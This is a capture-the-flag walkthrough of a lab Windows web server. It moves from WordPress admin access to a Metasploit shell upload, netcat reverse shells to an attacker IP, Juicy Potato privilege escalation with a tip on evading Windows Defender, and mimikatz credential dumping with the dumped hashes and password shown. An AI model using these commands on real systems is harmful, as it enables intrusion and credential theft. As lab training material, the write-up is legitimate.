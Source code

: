 ### Enumeration
After networking enumeration, go visit website `http://10.10.10.29` and see it's a website hosted by Window Server

Use `gobuster` to find directories in web server:

```gobuster dir -u "http://10.10.10.29" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt```

-> Find a directory called `/wordpress` 

 Investigate `/wordpress` and found `wp-login.php` entry page.
 
 Use credentials `admin:P@s5w0rd!` that we found on previous machine (DB user)
 
### Exploitation

Use ***Metasploit*** -> open `msfconsole` to search for module `search -f wordpress admin shell` 

`use exploit/unix/webapp/wp_admin_shell_upload` 

This command give us a reverse TCP shell (PHP)

```meterpreter> sysinfo``` -> Gave us information about the Window machine (Window Server 2016)

We see that this is a rather old Windows Server version. Let's see if it has any know vulnerabilities regarding privilege escalation.

And indeed! It's called `Rotten Potato` [docs](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/). For our case, we will use a slight modification of that exploit called `Juicy Potato` [Github](https://github.com/ohpe/juicy-potato/).

### Upload NetCat

Start Netcat listener in your machine
`nc -lvp 1338` 

Download `nc.exe` from [here](https://github.com/int0x33/nc.exe/blob/master/nc.exe). Change directory in meterpreter session to

`C:/inetpub/wwwroot/wordpress/wp-content/uploads`

Upload the `nc.exe` file from your machine to Window victim machine. 

`upload nc.exe` 

Execute nc.exe

` execute -f nc.exe -a "-e cmd.exe 10.10.16.6 1338"`

You should see a Window Powershell in your terminal (from Netcat listener)

### Privilege Escalation ( Juicy Potato exploit)

Start another Netcat listener
`nc -lvp 1339`

We can create a batch file that will be executed by the exploit and return a SYSTEM shell. Let's add the following contents to `shell.bat` (run it from the nc reverse shell).

`echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.16.6 1339 > shell.bat`

Upload Juicy Potato exe to window victim machine (use uncommon name) so window defender don't detect it.

Execute `jp.exe` with `shell.bat`:

`jp.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337`

-> you should have SYSTEM ADMIN shell in your Netcat session

Type `whoami` to check

-> `NT AUTHORITY\System` 

root.txt flag is in `C:\Users\Administrator\Desktop`

### Post Exploitation

Mimikatz can be used to find additional cached passwords on the machine. This might be useful for the next challenge.

So we upload the exe from the meterpreter session and execute it:

`meterpreter > upload mimikatz.exe`

Then do following in the System shell:

`$ .\mimikatz.exe`

`$ mimikatz> sekurlsa::logonpasswords`

...

Authentication Id : 0 ; 216075 (00000000:00034c0b)                                       
Session           : Interactive from 1
User Name         : sandra
Domain            : MEGACORP
Logon Server      : PATHFINDER
Logon Time        : 1/4/2021 11:12:16 AM
SID               : S-1-5-21-1035856440-4137329016-3276773158-1105                       
        msv :                               
         [00000003] Primary
         * Username : sandra
         * Domain   : MEGACORP
         * NTLM     : 29ab86c5c4d2aab957763e5c1720486d                                   
         * SHA1     : 8bd0ccc2a23892a74dfbbbb57f0faa9721562a38                           
         * DPAPI    : f4c73b3f07c4f309ebf086644254bcbc                                   
        tspkg :                             
        wdigest :                           
         * Username : sandra
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :                          
         * Username : sandra                <-- USERNAME
         * Domain   : MEGACORP.LOCAL
         * Password : Password1234!         <-- PASSWORD
        ssp :                               
        credman : 
        
...
The found credentials are sandra:Password1234!.
